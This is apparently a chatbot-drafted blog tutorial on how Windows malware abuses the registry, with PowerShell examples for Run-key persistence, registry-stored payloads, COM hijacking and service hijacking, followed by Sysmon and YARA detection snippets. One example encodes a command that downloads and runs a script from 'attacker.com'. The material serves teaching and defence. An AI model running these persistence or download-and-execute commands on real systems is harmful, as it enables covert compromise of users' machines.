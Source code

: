 ```yaml
---
layout: post
title: Windows Registry Malware Techniques
categories: [Tutorials, Malware Analysis] # Or choose categories relevant to you
tag: [registry, malware, persistence, fileless, windows, detection] # Add relevant tags
---
```


## Introduction

The Windows Registry is a hierarchical database that stores low-level configuration data for the operating system and installed applications. It's a critical component of Windows, making it a prime target for malware.

Malware often abuses the registry for various malicious purposes, including:

*   **Persistence:** Ensuring the malware runs automatically after reboots or user logins.
*   **Payload Storage:** Storing malicious code or configuration data directly within the registry to avoid dropping files on disk.
*   **Configuration Hiding:** Camouflaging malware settings amongst legitimate registry entries.
*   **Stealth:** Achieving execution or persistence without leaving traditional file system artifacts.

In this post, you’ll learn:

*   How the Registry works under the hood.
*   Common locations and methods malware uses to hide data and achieve persistence via the registry.
*   How Advanced Persistent Threats (APTs) leverage the registry for stealthy operations.
*   Techniques for detecting malicious registry modifications.

## Windows Registry: Quick Overview

The Registry is logically divided into several root keys, often called hives. The most relevant ones for malware analysis include:

| Hive                   | Abbreviation | Purpose                                        |
| :--------------------- | :----------- | :--------------------------------------------- |
| `HKEY_LOCAL_MACHINE`   | `HKLM`       | System-wide settings (hardware, software, OS)  |
| `HKEY_CURRENT_USER`    | `HKCU`       | Settings specific to the currently logged-in user |
| `HKEY_CLASSES_ROOT`    | `HKCR`       | File associations and COM object registrations |
| `HKEY_USERS`           | `HKU`        | Profiles for all users loaded on the system    |
| `HKEY_CURRENT_CONFIG`  | `HKCC`       | Hardware profile used at system startup        |

Within these hives, the Registry stores information in **keys** (which are like folders) and **values** (which are the actual data entries within keys). This data is physically stored on disk in hive files, such as:

*   `C:\Windows\System32\config\SYSTEM` (Part of HKLM)
*   `C:\Windows\System32\config\SOFTWARE` (Part of HKLM)
*   `C:\Users\<username>\NTUSER.DAT` (The HKCU hive for a specific user)

## Registry-Based Malware Techniques

Let's explore some common ways malware abuses the Windows Registry.

### 1. Registry Run Keys (Persistence)

This is a classic and widely used persistence technique. Malware adds an entry to specific `Run` keys, causing Windows to automatically execute the specified program whenever a user logs in (for HKCU keys) or whenever the system boots (for HKLM keys).

**Example (User-Level Persistence via PowerShell):**

```powershell
# Command to add malware to the current user's Run key
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "C:\payloads\backdoor.exe"
Use code with caution.
Markdown
Result: C:\payloads\backdoor.exe will automatically start the next time the current user logs in.
Example (System-Level Persistence via PowerShell):
# Command to add malware to the local machine's Run key (requires Admin privileges)
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "SystemUpdater" -Value "C:\Windows\System32\evil.exe"
Use code with caution.
Powershell
Result: C:\Windows\System32\evil.exe will attempt to start automatically during the system boot process, often running with higher privileges.
Threat Actors: This technique is ubiquitous and used by countless malware families, including commodity RATs like DarkComet and Quasar, as well as more sophisticated threats.
2. Payload Storage in Registry (Fileless Malware)
To evade detection based on file scanning, malware can store its malicious payload (e.g., scripts, shellcode, secondary stages) directly within registry values. This is a characteristic of "fileless" or "living-off-the-land" attacks.
Example (Storing Base64 encoded PowerShell):
# Encode a malicious PowerShell command
$command = "iex (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
$payload = "powershell.exe -EncodedCommand $encodedCommand"

# Store the execution command in a registry value
New-Item -Path "HKCU:\Software\MyApp" -Force | Out-Null
Set-ItemProperty -Path "HKCU:\Software\MyApp" -Name "Data" -Value $payload
Use code with caution.
Powershell
Later, another component or script can read this value and execute it:
# Retrieve and execute the stored command
$cmd = (Get-ItemProperty -Path "HKCU:\Software\MyApp").Data
Invoke-Expression $cmd
Use code with caution.
Powershell
Advantages:
Fileless: No malicious executable file dropped directly onto the disk (though the execution might eventually lead to one).
Harder to Detect: Traditional file-based antivirus might miss the initial payload.
Persistence: Survives reboots if stored in HKCU or HKLM.
3. Malicious Shell Extensions / COM Hijacking
Malware can register itself as a Component Object Model (COM) object or a shell extension. By hijacking specific CLSID (Class Identifier) keys in the registry, the malware's DLL can be loaded and executed by legitimate processes (like explorer.exe) under certain conditions (e.g., user login, right-clicking a file, opening a specific folder).
Conceptual Example (Registry Modification):
; Create or hijack a CLSID key under HKCU\Software\Classes or HKLM\Software\Classes
[HKEY_CURRENT_USER\Software\Classes\CLSID\{BAD-GUID-HERE}\InprocServer32]
@="C:\path\to\malicious.dll"
"ThreadingModel"="Apartment"

Registry
Impact: This is a stealthy persistence and execution method often used in APT campaigns because it leverages trusted Windows processes to load the malicious code.
4. Service ImagePath Hijack (Privilege Escalation/Persistence)
If malware gains administrative privileges, it can modify the ImagePath value of an existing Windows service. This value specifies the path to the executable that the Service Control Manager (services.exe) should launch when the service starts. By changing this path to point to its own executable, the malware ensures it gets executed (often with SYSTEM privileges) the next time the service starts (e.g., on reboot or manual restart).
Example (PowerShell, requires Admin):
# Modify the ImagePath of a (potentially disabled or less critical) service
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\SomeLegitService" -Name "ImagePath" -Value "C:\payloads\evil_service.exe"

Powershell
Impact: Effective for achieving high-privilege persistence.
Detection & Hunting
Detecting malicious registry activity requires monitoring registry modifications and correlating them with other system events.
Autoruns: The Sysinternals Autoruns tool is excellent for examining auto-start locations, including Run keys, services, scheduled tasks, and shell extensions/COM objects registered in the registry. Look for suspicious or unsigned executables/DLLs in unusual locations.
System Monitoring (Sysmon): Sysmon provides detailed logging of registry events. Key Event IDs:
Event ID 12: Registry Key Create
Event ID 13: Registry Value Set
Event ID 14: Registry Key Rename (less common for malware)
Event ID 1: Process Create (correlate registry writes with the process that performed them)
Example Sysmon Configuration Snippet (Filter for Run Key modifications):
<Sysmon schemaversion="4.82">
  <EventFiltering>
    <RegistryEvent onmatch="include">
      <!-- Detect writes to Run keys -->
      <TargetObject condition="contains any">\CurrentVersion\Run;\CurrentVersion\RunOnce</TargetObject>
      <!-- Add other suspicious key paths here -->
    </RegistryEvent>
  </EventFiltering>
</Sysmon>

YARA Rules: YARA rules can scan memory or files (like exported registry hives or backups) for strings commonly associated with registry persistence techniques.
rule RegistryPersistenceRunKey_Strings
{
    meta:
        description = "Detects common registry Run key paths often used for persistence"
        author = "Your Name"
        date = "YYYY-MM-DD"
    strings:
        $reg_run_hkcu = "Software\\Microsoft\\Windows\\CurrentVersion\\Run" ascii wide
        $reg_run_hklm = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run" ascii wide // Note: HKLM path often uppercase in raw hives
        $reg_runonce_hkcu = "Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce" ascii wide
        $reg_runonce_hklm = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnce" ascii wide
        // Add other relevant keys like Wow6432Node paths, Policies\Explorer\Run, etc.
    condition:
        any of them
}

APT Use Cases in the Wild
Numerous sophisticated threat actors utilize registry manipulation:
APT29 (Cozy Bear): Known for using registry modifications for persistence and storing configuration data.
FIN7: Often uses fileless techniques involving storing scripts or loaders in the registry.
Turla: Employs COM hijacking and registry modifications for stealthy persistence.
Lazarus Group: Has been observed using Run keys and service modifications.
For detailed examples, refer to threat intelligence reports and the MITRE ATT&CK framework:
MITRE ATT&CK T1547.001: Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder
MITRE ATT&CK T1112: Modify Registry
MITRE ATT&CK T1546.015: Component Object Model Hijacking (covers registry aspects)
MITRE ATT&CK T1543.003: Create or Modify System Process: Windows Service (ImagePath modification)
Next Steps
Understanding registry abuse is crucial for defense and incident response. As a next step, consider exploring:
Windows Memory Internals — Virtual Memory concepts, Process Injection techniques, and Shellcode Execution.
**How to Use This:**

1.  **Navigate:** Go to your forked repository on your local machine or on GitHub's web interface. Find the `_posts` directory.
2.  **Identify:** Find the original `.md` file for the DLL Hijacking post (it will likely start with a date like `2023-MM-DD-hijacking-dlls.md`).
3.  **Rename:** Rename this file to something like `2024-03-14-windows-registry-malware.md` (use the current date or the date you want the post to appear).
4.  **Replace:** Open the newly renamed file and delete *all* of its existing content.
5.  **Paste:** Copy the entire Markdown block provided above (starting from `---` and ending after the `Next Steps` section) and paste it into the empty file.
6.  **Save:** Save the file.
7.  **Commit & Push:** Use Git commands (`git add .`, `git commit -m "Add post on Windows Registry Malware Techniques"`, `git push`) or the GitHub interface to commit and push this change to your repository.
8.  **Verify:** Wait a minute or two for GitHub Pages to rebuild your site, then visit `your-username.github.io/your-repo-name` to see your new post.
